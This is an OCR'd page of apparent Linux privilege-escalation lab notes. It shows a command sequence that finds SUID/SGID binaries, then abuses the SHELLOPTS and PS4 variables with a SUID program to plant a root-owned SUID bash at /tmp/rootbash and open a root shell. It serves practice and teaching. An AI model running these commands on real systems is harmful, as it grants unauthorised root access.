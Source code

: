 # TEST SETUP/ENVIRONMENT FOR PRIVILEGE ESCALATION PRACTICE 

# MANUAL ENUMERATION - MISCONFIGURATIONS/VULNERABILITIES ASSESSMENT

# AUTOMATED ENUMERATION - MISCONFIGURATIONS/VULNERABILITIES ASSESSMENT

# MISCONFIGURATIONS/VULNERABILITIES EXPLOITATION 

## CATEGORY "SUID / SGID EXECUTEABLES" - ABUSING SHELL FEATURES 2

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

/tmp/rootbash -p

rm /tmp/rootbash

exit
```
